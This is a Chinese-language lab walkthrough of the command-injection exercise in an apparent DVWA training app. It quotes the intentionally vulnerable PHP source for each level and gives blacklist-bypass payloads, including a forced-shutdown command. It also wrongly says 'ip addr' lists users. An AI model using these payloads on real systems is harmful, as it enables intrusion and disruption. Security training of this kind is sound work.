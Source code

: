 # Command Injection

> ## @Date：2021-5-18
>
> ## @Author：Tanyiqu

> ## low
>

源码里面没有进行过滤，可以进行命令注入攻击。

在输入框里面输入：

```shell
127.0.0.1 && ip addr
```



就会列出系统中的所有用户



同样，也可以使用以下命令进行注入

```shell
127.0.0.1 & ip addr
127.0.0.1 | ip addr
127.0.0.1 && ipconfig
127.0.0.1 && shutdown -s -f -t 0
127.0.0.1 && 其他你想执行的命令
...
```

<br>

> ## medium

源码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```



分析源码可知，只把 `&&` 和 `;` 进行过滤处理

使用 `&` 进行注入即可



```shell
127.0.0.1 & ip addr
```

<br>

> ## high
>

源码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```



high等级的只是完善了黑名单，但是 `| ` 这个，后面有一个空格，所以可以使用 `|` 进行注入。



```shell
127.0.0.1|ip addr
```

注意 `|` 后面不要有空格

<br>
